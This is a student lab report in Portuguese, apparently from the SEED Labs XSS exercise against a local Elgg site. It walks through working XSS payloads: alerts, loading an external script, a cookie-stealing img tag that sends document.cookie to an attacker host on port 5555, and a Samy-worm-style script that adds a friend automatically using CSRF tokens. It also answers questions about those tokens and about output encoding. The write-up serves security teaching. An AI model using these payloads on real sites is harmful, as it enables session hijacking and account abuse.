 # Trabalho realizado na Semana #10  - Cross_Site_Scripting

## Setup

- Depois de fazer setup com **docker-compose** tivemos que conhecer melhor o add-on do firefox **HTTP Header Live** 

![Setup](setup.png)

## Tarefa 1

- Para fazer um ataque XSS, de maneira a que, cada vez que um utilizador visite o perfil do 'Boby' digamos, execute um programa de **JavaScript**, apenas foi preciso inserir o seguinte codigo na 'brief description' para confirmar que era possivel

```html
<script> alert("XSS vulnerability here..."); </script>
```

![Tarefa 2](tarefa1.png)

- Caso se tratasse de um bloco de codigo com maiores dimensoes o formulario poderia limitar o nr de caracteres, entao, para dar a volta a esta situaçao, era possivel ir buscar o codigo a outro site de um dominio nosso, da seguinte forma:

```html
<script type="text/javascript"
  src="http://www.example.com/myscripts.js">
</script>
```
  

## Tarefa 2

- Procedendo de forma similar obtivemos a cookie no alerta

```html
<script>alert(document.cookie);</script>
```

![Tarefa 2](tarefa2.png)  
  
## Tarefa 3  

- Agora o objetivo e´ conseguir enviar a cookie para o atacante, sempre que se visitar o perfil, para isso inserimos o seguinte script na short description

```html
<script>
document.write(
  ’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’  >’
  );
</script>
```

- Este script insere uma \<img> com o atributo **src** a apontar para a maquina do atacante. Quando o JavaScript insere a imagem, o browser tenta carrega-la a partir do URL dado, que resulta num pedido **GET**.

- Usando netcat e escutando na porta 5555 obtivemos o seguinte output:

![Tarefa 3](tarefa3.png)  

## Tarefa 4

- Para tentar replicar um ataque semelhante ao "Samy Worm" que ocorreu no Myspace, primeiro tentamos perceber melhor o que acontecia quando se adiciona um amigo

![Tarefa 4_1](tarefa4_1.png)  

- Primeiro e´ efetuado o pedido, com a cookie e os outros parametros, seguido de um pedido GET para "refrescar" a pagina

- Sabendo que o Samy tem o id 59 inserimos o seguinte script no about em **Edit HTML**

![Tarefa 4_2](tarefa4_2.png)

```html
<script type="text/javascript">

  window.onload = function () {

    var Ajax=null;

    // Set the timestamp and secret token parameters

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;

    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    

    //Construct the HTTP request to add Samy as a friend.

    var sendurl= "http://www.seed-server.com/action/friends/add"
    + "?friend=59" + token + ts;
    

    //Create and send Ajax request to add friend

    Ajax=new XMLHttpRequest();

    Ajax.open("GET",sendurl,true);

    Ajax.setRequestHeader("Host","www.seed-server.com");

    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");

    Ajax.send();

  }
</script>

```

- Um efeito que este script tem e notamos de imediato e´ que Samy torna-se amigo dele proprio.

- No entanto, fazendo login com outro user qualquer, no nosso caso com o Charlie, visitando o perfil deste hacker e sem clicar no botao de add friend, quando vamos `a pagina dos nossos amigos o Sammy aparece la´

![Tarefa 4_3](tarefa4_3.png)


### Questao 1

Para que servem as seguintes linhas de codigo?

```js
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
```

- Sao os tokens necessarios que comprovam autenticidade da origem do pedido. Para enviar um request HTTP precisamos do **token secreto** e do valor de **timestamp** caso contrario o pedido pode nao ser considerado legitimo e o ataque falha.

### Questao 2

Se a aplicaçao apenas disponibilizasse o modo de editor para a seçao "About Me", nao seria possivel mudar para o modo de texto. Ainda assim seria possivel lançar o ataque?

- Nesse caso nao seria possivel lançar o ataque, porque os caracteres especiais sao **encoded**, por exemplo, o caracter **<** que e´ essencial para escrever a tag **script** para JS transforma-se em **&lt**

```html

<script> window.alert("hello"); </script>

// PASSA A 

<p> &lt;script&gt; window.alert("hello"); &lt;/script&gt; </p>
```